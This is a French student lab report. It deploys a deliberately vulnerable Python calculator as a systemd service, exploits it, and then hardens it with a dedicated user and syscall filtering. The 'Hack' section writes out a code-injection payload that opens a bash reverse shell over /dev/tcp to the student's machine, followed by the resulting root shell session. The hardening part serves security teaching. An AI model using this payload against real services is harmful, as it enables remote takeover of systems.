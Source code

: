# Part IV : My shitty app

**[une application Python (toute pourrie) codée avec mes mains](./calc.py) :**

- elle écoute sur un port TCP
- un client peut se connecter (genre avec `nc`)
- le client peut soumettre une opération arithmétique
- l'application calcule le résultat et l'envoie au client
- l'application se termine

## 1. Création de service

🌞 **Créer un service `calculatrice.service`**

```ini
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always

[Install]
WantedBy=multi-user.target
```

🌞 **Indiquer à systemd que vous avez modifié les services**

```bash
# on indique à systemd de relire les fichiers de définition de service
sudo systemctl daemon-reload
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

- exécutez un simple `systemctl status calculatrice`
```ps
[dums@vbox ~]$ systemctl status calculatrice
● calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; enabled; preset: disabled)
     Active: active (running) since Wed 2025-02-19 22:30:50 CET; 1min 23s ago
   Main PID: 1359 (python3)
      Tasks: 1 (limit: 11101)
     Memory: 3.3M
        CPU: 44ms
     CGroup: /system.slice/calculatrice.service
             └─1359 /usr/bin/python3 /opt/calc.py

Feb 19 22:30:50 vbox systemd[1]: Started Super serveur calculatrice.
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

- on peut se connecter depuis notre PC
```ps
PS C:\Users\cleme> ncat 10.1.1.11 13337
hello
Hello3+3
6
```
- l'affichage de l'application est disponible dans les logs : 
```ps
journalctl -xe -u calculatrice
Feb 19 22:30:50 vbox systemd[1]: Started Super serveur calculatrice.
   Subject: A start job for unit calculatrice.service has finished successfully
   Defined-By: systemd
   Support: https://wiki.rockylinux.org/rocky/support  
   A start job for unit calculatrice.service has finished successfully.
  
   The job identifier is 907. 
```

## 3. Hack

🌞 **Hack l'application**




J'ai utilisé un reverse shell vers le port 4444 de ma machine perso.
Voila ce que j'écris dans l'application : 
```ps
PS C:\Users\cleme> ncat 10.1.1.11 13337
hello
Hello__import__('os').system('bash -c "bash -i >& /dev/tcp/10.1.1.0/4444 0>&1"')
```
Dans mon reverse shell : 
```ps
PS C:\Users\cleme> ncat -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.1.1.11:44150.
bash: cannot set terminal process group (1496): Inappropriate ioctl for device
bash: no job control in this shell
[root@vbox /]# whoami
whoami
root
[root@vbox /]# shutdown now
shutdown now
[root@vbox /]#
PS C:\Users\cleme>
```

## 4. Harden

### A. Utilisateurs

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```ps 
[dums@vbox ~]$ ps aux | grep calc.py
root         680  0.0  0.4  10892  8576 ?        Ss   23:30   0:00 /usr/bin/python3 /opt/calc.py
```
```ps
[dums@vbox ~]$ ps aux | grep calculatrice
dums        1302  0.0  0.1   6408  2304 pts/0    S+   23:36   0:00 grep --color=auto calculatrice
```

🌞 **Créer l'utilisateur `calculatrice`**

```ps
sudo useradd -r -s /sbin/nologin -M calculatrice
```

🌞 **Adaptez les permissions**

```ps
sudo chown calculatrice:calculatrice /opt/calc.py
```
```ps
sudo chmod 700 /opt/calc.py
```
🌞 **Modifier le `.service`**

- On ajoute la clause `User=calculatrice`

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

```ps
[dums@vbox ~]$ ps aux | grep calc.py
calcula+    1353  0.7  0.4  10828  8192 ?        Ss   23:43   0:00 /usr/bin/python3 /opt/calc.py
dums        1355  0.0  0.1   6412  2304 pts/0    S+   23:43   0:00 grep --color=auto calc.py
```

### B. Syscalls

Bon bah ouais on revient au thème du TP, vous le voyez venir :D

🌞 **Tracez l'exécution de l'application : normal**

- effectuez un tracing avec `strace` ou `sysdig`
- donnez dans le compte-rendu la liste des syscalls effectués par l'application `calc.py` pendant son fonctionnement normal

sortie sysdig --> [calculatrice.scap](./calculatrice.scap)

🌞 **Tracez l'exécution de l'application : hack**

- vous voyez un ou plusieurs syscalls en plus ? Si oui, lesquels ?

```ps
switch
```



🌞 **Adaptez le `.service`**

- ajoutez un filtrage des *syscalls* dans le fichier `calculatrice.service`
- vérifiez que l'exploitation est devenue plus compliquée

```ps
[dums@vbox ~]$ sudo cat /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
User=calculatrice
Restart=always

SystemCallFilter=~fork clone vfork

[Install]
WantedBy=multi-user.target
```

Fichier --> [calculatrice.service](./calculatrice.service)